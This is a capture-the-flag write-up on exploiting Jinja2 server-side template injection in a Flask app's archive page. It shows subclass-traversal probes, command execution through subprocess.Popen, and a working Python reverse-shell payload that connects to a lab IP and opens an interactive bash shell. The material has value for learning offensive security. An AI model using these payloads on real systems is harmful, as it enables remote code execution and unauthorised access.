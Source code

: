 The first method that I used was exploiting `config.items()`:

<details></details>

The following post provides a great overview of SSTI, including definitions for `mro` and `subclasses`: <https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee>. I started with the following commands, each time confirming that it functioned correctly within the `/archive` page:

* `config.items()`
* `config.from_object('os')`
* `''.__class__.__mro__ ` 
* `''.__class__.__mro__[1].__subclasses__()` -- this command confirmed that we were exploiting the jinja2 environment as it was listed as a subclass.
* `''.__class__.__mro__[1].__subclasses__()[406:]`


For the last part, I used BurpSuite repeater to determine that the index for the class `subprocess.Popen` was `407`. With the index for `subprocess.Popen`, I tried using some basic commands. The first one I tried was `ls`:

```python
''.__class__.mro()[1].__subclasses__()[407]('ls',shell=True,stdout=-1).communicate()[0].strip()
```

This resulted in the following XML:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">
<channel>
<title>Archive</title>
<item><title>b&#39;blog\nblog.sh&#39;</title></item>

</channel>
```			
			
Awesome! I now had code execution! The next thing that I needed to do was change it to retrieve a reverse shell. Going back to the `PayloadsAllTheThings` Github page, I used the following reverse shell payload:

```python
% for x  in ().__class__.__base__.__subclasses__() %
% if "warning" in  x.__name__  % 
x()._module.__builtins__['__import__']('os').popen("python3 -c  'import  socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.106\",9001));os.dup2(s.fileno(),0);  os.dup2(s.fileno(),1);  os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",  \"-i\"]);'").read().zfill(417)
% endif %
% endfor %
```

## Lateral Movement using Web

Using this, I successfully managed to obtain a shell on the machine! Running some basic enumeration, we can see the following:

<p class="imgMiddle">